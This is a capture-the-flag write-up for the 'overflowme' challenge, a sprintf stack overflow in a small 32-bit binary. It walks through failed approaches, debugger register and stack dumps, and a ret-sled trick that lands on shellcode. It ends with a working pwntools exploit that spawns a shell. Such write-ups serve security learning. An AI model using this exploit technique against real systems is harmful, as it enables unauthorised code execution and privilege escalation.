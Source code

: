 # Overflowme Writeup

## 0x00 Introduction

Actually this problem is not hard, but I didn't get the point at the beginning, so it spent me about a few hours... Therefore, I wrote this writeup to record and conclude for myself.

## 0x01 Problem

obvious stack overflow，as shown

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "inspection.h"
void vuln(char *str) {
    char buf[770];
    sprintf(buf, "Hello %s", str);
    puts(buf);
    fflush(stdout);
    return;
}

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

int main(int argc, char **argv) {

    if (argc != 2) {
        printf("Usage: %s [name]\n", argv[0]);
        return 1;
    }
    be_nice_to_people();
    vuln(argv[1]);
    return 0;
}
```

The input is the argv[1], so to debug using gdb, we need to do this in pwntool python script

```python
sh = gdb.debug(["./overflowme", payload], "b vuln")
```

instead of

```python
sh = process(["./overflowme", payload])
```

when executing the process

## 0x02 Approach

### find jmp esp/jmp ebx/jmp ebp/call esp/call ebx/call ebp

When vuln terminates, where control flow can be hijacked:

\*EAX  0x0
 EBX  0xffffce90 ◂— 0x2
\*ECX  0xf7fb4870 \(\_IO\_stdfile\_1\_lock\) ◂— 0
\*EDX  0x0
 EDI  0xf7fb3000 \(\_GLOBAL\_OFFSET\_TABLE\_\) ◂— mov    al, 0x1d /\* 0x1b1db0 \*/
 ESI  0xf7fb3000 \(\_GLOBAL\_OFFSET\_TABLE\_\) ◂— mov    al, 0x1d /\* 0x1b1db0 \*/
\*EBP  0xffffce78 ◂— 0x0
\*ESP  0xffffce5c —▸ 0x8048683 \(main\+73\) ◂— add    esp, 0x10
\*EIP  0x8048615 \(vuln\+72\) ◂— ret    

ebx/esp/ebp points to stack, which means that we can fill this address using our payload. However, there is no such instruction in this program since the program is so small.

Then, I was thinking about ROP to move value of ebx to eax/edx and return to call eax/edx, which this program has.

However, again, the program is so small that we cannot find such ROP chain.

Then I found that data segment of this program is both writable and executable, and we know address of data segment, so I would like to find something like DWORD SHOOT to construct such instruction in data segment and return to the instruction that I created.

This program is small, the only possible DWORD SHOOT is using register ebp as base address register, so we need to change ebp to pointer in data segment. However, after those instruction, "leave" instruction is executed, so esp=ebp, but ebp points to data segment, so return address is not controlled by me anymore. Same for the method to shoot esp into data segment and use push to change data in data segment. \(This one is even more impossible, since change esp to somewhere uncontrollable cannot help us in constructing ROP\)

What about using sprintf? This can write data into data segment if we let dst pointer point to data segment. However, our we don't know address of stack, but our payload is in stack, so we cannot do this.

What about using %x in data segment to shoot something into code segment? In this way what we need is value that can be controlled instead of address pointing to out payload. However, the possible bytes are limited, alpha shellcode is possible, but quite complicated to construct. \(will try this if I have time later\)

At this point, I realized that I was thinking in the wrong direction, since I do not think this question is hard like that.

### find ROP that output GOT and input system address

I have used this technique in solving caas, in which I constructed ROP in heap and the address of heap is known. Thus, I can manipulate ebp in the way that leave/ret will help us to execute next call. However, in this case, stack address is unknown, so we cannot do this. 

However, in this case, we have "add,esp xxx; pop xxx; pop xxx; ret" \(There is no leave\). Thus we can execute sequence of call without need to know stack address.

However, there is not such function imported as read/scanf, so we cannot do this.

### utilize data in stack

Utilizing data in register cannot succeed, so why not utilize data in stack? It is possible.

00:0000│ esp  0xffffcb5c —▸ 0x8048600 (vuln+51) ◂— les    edx, ptr [eax]
01:0004│      0xffffcb60 —▸ 0xffffce5f ◂— 0x41414141 ('AAAA')
02:0008│      0xffffcb64 —▸ 0xffffcc24 —▸ 0xffffce24 ◂— 0x6d6f682f ('/hom')
03:000c│      0xffffcb68 —▸ 0xffffcb78 ◂— 0x0
04:0010│      0xffffcb6c —▸ 0x8048672 (main+56) ◂— mov    eax, dword ptr [ebx + 4]
05:0014│      0xffffcb70 —▸ 0xffffcb90 ◂— 0x2
06:0018│      0xffffcb74 ◂— 0x0

This is stack when ret in vuln is executed. Nice! The 2nd dword in stack points to our payload since argument of vuln is pointer to our input, so as long as we make return address to be a ret, double ret will make eip jump to our shellcode!

What's the problem here? The overflow function is sprintf, in which there is '\0' added in the end, so least significant byte of pointer to our input will be changed to 0, so this address is no longer our input anymore but something previous, which causes segmentation fault before shellcode is reached.

How to solve this? If we can find a ret with address 0x080400xx or 0x08048600 \(partly overflow\), we can ret to that ret, so pointer to out input will not be corrupted. Unluckily, there is no such ret. 

However, we can do several sequence of ret until next dword, if least significant byte being cleared to 0, will point to our shellcode.

Actually,  if we clear LSB of 0xffffcb78 to get 0xffffcb00, we can find that

pwndbg> x/16s 0xffffcb00
0xffffcb00:	'A' \<repeats 15 times\>...
0xffffcb0f:	'A' \<repeats 15 times\>...
0xffffcb1e:	'A' \<repeats 15 times\>...
0xffffcb2d:	'A' \<repeats 15 times\>...
0xffffcb3c:	'A' \<repeats 15 times\>...
0xffffcb4b:	'A' \<repeats 15 times\>...
0xffffcb5a:	"AA"

Wow! This can be our shellcode if we put shellcode in the end of payload!

Thus, final exp is

```python
from pwn import *
g_local = False
shellcode = asm("sub esp,0x7f;sub esp,0x7f;sub esp,0x7f;sub esp,0x7f;sub esp,0x7f;" + shellcraft.i386.linux.sh())
# sub esp is to prevent the data being pushed into stack in shellcode corrupt shellcode itself, important in NX disabled exploitation
overflow_len = 0x308
if g_local:
	padding = 0#x18
else:
	padding = 0#x28

payload = ("A" * (overflow_len - len(shellcode) - padding)) + shellcode + "A"*padding + p32(0x8048615) * 3
# 0x8048615 is address of ret

if g_local:
	#sh = gdb.debug(["./overflowme", payload], "b vuln")
	sh = process(["./overflowme", payload])
else:
	sh = process(["/problems/b0b419078e5ac70c47a50b04b2aae2d9/overflowme", payload])

print hex(len(payload))
print payload

sh.interactive()
```

